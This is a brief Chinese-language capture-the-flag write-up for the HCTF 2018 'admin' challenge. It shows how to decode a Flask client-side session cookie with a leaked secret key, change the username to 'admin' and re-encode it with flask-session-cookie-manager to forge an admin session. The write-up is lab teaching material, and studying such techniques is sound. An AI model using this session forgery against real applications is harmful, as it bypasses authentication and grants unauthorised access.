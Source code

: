 # flask

## [HCTF 2018]admin 1

如果session等于admin就出hctf{}，即flag

而提示flask就有用了，flask是轻量级web框架，session存在客户端，我们可以伪造session（cookie）

[flask编码解码器](https://github.com/noraj/flask-session-cookie-manager)

去到它的目录下，可以看到setup.py

win+r输入cmd，cd到该目录，输入以下语句安装。安装成功后可以用pip list确认清单是否有flask相关

```cmd
python setup.py install
```

输入`py3 flask3.py decode -h`显示decode帮助-s “…” （secret key）-c “…” （session ckkie value）可以不加引号，最好加

secret key在config.py

session ckkie value在随便一个页面存储的cookie里

解码

```cmd
py3 flask3.py decode -s ckj123 -c ".eJw9kEFvgkAQRv9KM2cOsOiFxAPNAjHpDMEskt2LsYqWXdY2oKms8b93tYmHOb3k5Xtzg81haMcvSM7DpQ1g0-0hucHbJyQghWFUKKsKOZdNNSOODt3Okcs7cnWorL9i3VMjIxR4RWd-PZ9IKyOZsiSyWIl6pkTek-it4mlEeneVrvaOdCK-0kqQKT2Xet1hgyHxY0QMJxSky2LVo3u3VCBTnAzpNPSOGLXfoh88m5dNxmSTLeAewG4cDpvzt2lPrwTF884H9ChyI20Vkt5bYtUkxSPBOOJ1XPJeo669aunVy5iOi6eus9tj-zJh_fNB6T85ba0HELEYAriM7fD8GkQh3P8AhlRrKA.YAFz_w.drvVUPQMecMpeOp54B9BuvgM--8"
```

把name后面的你登录的用户名改为admin再加密

```cmd
py3 flask3.py encode -s ckj123 -t "{'_fresh': True, '_id': b'a964ffdf9ad843337371b754fe4dee5f513139037266dcff517e58e1e59fd05671c5370244ce3d91eb5b1c44857c213c8de30f4c6d3d604d0724863c8a99a6aa', 'csrf_token': b'd1bffe11dbd467f7d2a1b79345789c2599b72276', 'image': b'1JK4', 'name': 'admin', 'user_id': '10'}"
```

把加密后的session输回去然后返回index主页就可以看到flag
